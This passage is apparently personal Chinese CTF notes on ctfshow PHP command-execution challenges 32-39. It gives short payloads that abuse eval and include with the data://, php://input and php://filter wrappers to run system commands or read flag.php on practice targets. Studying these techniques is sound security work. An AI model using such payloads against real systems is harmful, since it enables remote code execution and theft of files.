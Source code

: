 ```
c=eval($_GET[x]);&x=system('tac flag*');
```

![image-20240511224711201](D:\Infiltration\笔记\note\图片\image-20240511224711201.png)

### ctfshow-32~36

还过滤了空格

![image-20240511225318910](D:\Infiltration\笔记\note\图片\image-20240511225318910.png)

##### 文件包含伪协议

利用data://text/plain协议执行system

```
c=include$_GET[a]?>&a=data://text/plain,<?php system('tac flag*');?>
```

![image-20240511230019287](D:\Infiltration\笔记\note\图片\image-20240511230019287.png)

利用php://filter/read协议base64编码读取，再使用hackbar进行base64解码

```
c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```

![image-20240511230303857](D:\Infiltration\笔记\note\图片\image-20240511230303857.png)



### ctfshow-37~39

include包含c参数

![image-20240511234556501](D:\Infiltration\笔记\note\图片\image-20240511234556501.png)

```
c=data://text/plain,<?php system('tac fla*');?>
```

![image-20240511234529953](D:\Infiltration\笔记\note\图片\image-20240511234529953.png)

```
c=php://input
post:<?php system('tac flag.php');?>
```

![image-20240511235007451](D:\Infiltration\笔记\note\图片\image-20240511235007451.png)

### 黑盒-运行-RCE代码命令执行



![image-20240511235445929](D:\Infiltration\笔记\note\图片\image-20240511235445929.png)














